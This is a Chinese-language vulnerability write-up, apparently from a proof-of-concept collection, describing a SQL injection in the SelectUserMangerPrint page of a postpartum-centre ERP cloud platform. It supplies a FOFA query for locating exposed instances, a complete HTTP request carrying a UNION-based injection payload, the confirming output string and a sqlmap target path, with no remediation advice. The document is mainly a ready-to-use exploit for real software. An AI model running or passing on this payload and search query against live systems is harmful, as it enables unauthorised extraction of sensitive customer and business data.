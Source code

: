 # 月子会所ERP管理云平台SelectUserMangerPrint存在SQL注入漏洞

# 一、漏洞简介
月子会ERP管理云平台是由武汉金同方科技有限公司研发团队结合行业月子中心相关企业需求开发的一套综合性管理软件，管控月子中心经营过程中各个环节。月子会所ERP管理云平台SelectUserMangerPrint存在SQL注入漏洞，攻击者可通过该漏洞获取数据库敏感数据。

# 二、影响版本
+ 月子会所ERP管理云平台

# 三、资产测绘
+ fofa`product="妈妈宝盒-ERP"`
+ 登录页面

![1693185375907-6915a126-7596-4142-b75c-f6a9c41760ab.png](./img/PbyyHJcsNm9df-Mp/1693185375907-6915a126-7596-4142-b75c-f6a9c41760ab-570049.png)

# 四、漏洞复现
```java
GET /Page/SalerManager/SelectUserMangerPrint.aspx?id=1%29+UNION+ALL+SELECT+NULL%2CNULL%2CCHAR%28113%29%2BCHAR%28113%29%2BCHAR%28120%29%2BCHAR%2898%29%2BCHAR%28113%29%2BCHAR%2882%29%2BCHAR%28113%29%2BCHAR%2870%29%2BCHAR%28108%29%2BCHAR%2883%29%2BCHAR%28111%29%2BCHAR%28106%29%2BCHAR%2888%29%2BCHAR%2878%29%2BCHAR%2884%29%2BCHAR%28112%29%2BCHAR%28122%29%2BCHAR%28103%29%2BCHAR%28110%29%2BCHAR%28109%29%2BCHAR%2897%29%2BCHAR%28113%29%2BCHAR%28107%29%2BCHAR%28116%29%2BCHAR%2872%29%2BCHAR%2876%29%2BCHAR%2878%29%2BCHAR%2880%29%2BCHAR%28113%29%2BCHAR%2868%29%2BCHAR%28118%29%2BCHAR%28112%29%2BCHAR%2878%29%2BCHAR%2898%29%2BCHAR%2890%29%2BCHAR%28108%29%2BCHAR%28113%29%2BCHAR%2874%29%2BCHAR%2883%29%2BCHAR%2868%29%2BCHAR%2882%29%2BCHAR%28117%29%2BCHAR%2873%29%2BCHAR%2877%29%2BCHAR%2874%29%2BCHAR%28113%29%2BCHAR%28122%29%2BCHAR%28118%29%2BCHAR%28120%29%2BCHAR%28113%29%2CNULL--+EfIE HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: ASP.NET_SessionId=mf1ihdp1nrlqfspeocl1np1d
Upgrade-Insecure-Requests: 1
```

![1710301276767-6643edd8-3299-4694-90cd-424500930546.png](./img/PbyyHJcsNm9df-Mp/1710301276767-6643edd8-3299-4694-90cd-424500930546-346858.png)

```java
qqxbqRqFlSojXNTpzgnmaqktHLNPqDvpNbZlqJSDRuIMJqzvxq
```

sqlmap

```java
/Page/SalerManager/SelectUserMangerPrint.aspx?id=1
```

![1710301303427-1c124b60-b297-4df6-9ce0-f9df37306055.png](./img/PbyyHJcsNm9df-Mp/1710301303427-1c124b60-b297-4df6-9ce0-f9df37306055-662745.png)



> 更新: 2024-04-17 17:13:53  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/fef6ey5vk0gh2g2s>
